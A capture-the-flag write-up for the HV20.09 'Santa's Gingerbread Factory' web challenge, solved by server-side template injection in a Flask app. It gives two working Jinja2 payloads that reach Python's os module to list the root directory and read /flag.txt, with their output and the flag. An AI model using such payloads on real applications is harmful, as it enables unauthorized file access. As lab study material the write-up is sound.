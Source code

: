 # Day 09 / HV20.09 Santa's Gingerbread Factory



## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: inik
* Tags:   #penetration-testing #web-security
* Level:  medium


### Introduction

Here you can customize your absolutely fat-free gingerbread man.

Note: Start your personal instance from the `RESOURCES` section on top.


### Goal / Mission

Besides the gingerbread men, there are other goodies there. Let's see if you
can get the goodie, which is stored in /flag.txt.



## Solution

The website is a flask application and the topic is [flask injection]().

[flask injection]: https://blog.nvisium.com/injecting-flask

After a lot of trial and error that startet with a simple `{{ 4 * 4 }}` that
gets evaluated to `16`. The solution was found with

1. A file listing injection:
   
   ```python
   {{''.__class__.mro()[2].__subclasses__()[59]()._module.__builtins__.__import__('os').listdir('.')}}

   Output: 
    -------------------------------
   ( Hello, mighty ['bin', 'boot', )
   ( 'dev', 'etc', 'home', 'lib',  )
   ( 'lib64', 'media', 'mnt',      )
   ( 'opt', 'proc', 'root', 'run', )
   ( 'sbin', 'srv', 'sys', 'tmp',  )
   ( 'usr', 'var', '.dockerenv',   )
   ( 'flag.txt']                   )
    -------------------------------
   ```

2. And the final injection to extract the flag:

   ```python
   {{''.__class__.mro()[2].__subclasses__()[59]()._module.__builtins__['open'](''.__class__.mro()[2].__subclasses__()[59]()._module.__builtins__.__import__('os').path.join('.','flag.txt')).read()}}

   Output:
    --------------------------------
   ( Hello, mighty HV20{SST1_N0t_0N )
   ( LY_H1Ts_UB3R!!!}               )
    --------------------------------
   ```

--------------------------------------------------------------------------------

Flag: `HV20{SST1_N0t_0NLY_H1Ts_UB3R!!!}`

